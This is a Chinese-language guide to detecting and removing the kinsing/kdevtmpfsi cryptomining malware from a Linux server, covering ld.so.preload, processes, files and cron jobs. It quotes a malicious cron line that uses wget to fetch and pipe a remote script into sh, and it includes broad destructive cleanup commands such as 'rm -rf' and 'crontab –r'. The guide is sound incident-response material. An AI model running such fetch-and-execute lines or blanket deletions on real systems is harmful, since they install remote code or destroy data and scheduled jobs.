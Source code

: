 > **查看隐藏病毒进程的linux配置文件**

```
ls /etc/ld.so.preload
```

查看恶意配置文件ld.so.preload是否存在

> **删除隐藏病毒进程的linux配置文件**

```
rm -rf /etc/ld.so.preload
```

若恶意配置文件ld.so.preload存在，删除此文件

> **查看CPU**

```
top
```

查看是否存在挖矿病毒kdevtmpfsi和kinsing，有则说明服务器中毒

> ** 查看病毒进程**

```
ps -aux | grep kinsing

ps -aux | grep kdevtmpfsi
```

查看是否存在挖矿病毒kdevtmpfsi和kinsing，有则说明服务器中毒

> **查找病毒文件**

```
find / -name "kdevtmpfsi"

find / -name "kinsing"
```

获取病毒文件所在目录

> **进入病毒文件所在目录删除病毒文件**

```
rm -rf /tmp/kdevtmpfsi

rm -rf /var/tmp/kdevtmpfsi

rm -rf /etc/kinsing
```

请按实际情况病毒所在的位置删除

> **删除病毒进程**

```
ps -aux | grep kdevtmpfsi |grep -v grep|cut -c 9-15 | xargs kill -9

ps -aux | grep kinsing |grep -v grep|cut -c 9-15 | xargs kill -9
```

> **查看定时任务**

```
crontab –l
```

若存在类似“/bin/sh -c wget -q -O - http://xxx.xxx.xxx.xxx/xxx.sh | sh > /dev/null 2>&1（一般为黑客定时任务）”的定时任务，请删除此定时任务

> **删除定时任务**

```
crontab –r
```

请在不影响业务正常运行的情况下，按实际情况删除

> **最终排查**

```
crontab –l

ps -aux | grep kinsing

ps -aux | grep kdevtmpfsi

find / -name "kinsing"

find / -name " kdevtmpfsi "
```

若上述命令都没有病毒相关信息，则说明病毒删除完成